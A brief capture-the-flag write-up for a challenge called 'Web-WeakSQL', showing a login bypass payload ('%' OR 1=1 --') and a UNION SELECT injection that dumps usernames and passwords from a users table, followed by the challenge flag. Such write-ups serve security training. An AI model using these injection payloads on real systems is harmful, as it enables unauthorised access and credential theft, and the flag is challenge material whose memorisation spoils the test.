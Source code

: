 # Web-WeakSQL

## Introduction

We find an application with only a login page. It is obviously a SQL injection to be done.

## Walkthrough

The payload for connecting is the following:

username: `a`
password: `%' OR 1=1 --'`

Then you arrive in the `/search` directory, a payload here can give us the whole users table:

search: `%' and 1=0 union select null,firstName,lastName,username, password,null,null from users -- `

Flag: **CTFrench{SQL_Sh0uld_b3_Pr0t3ct3d}**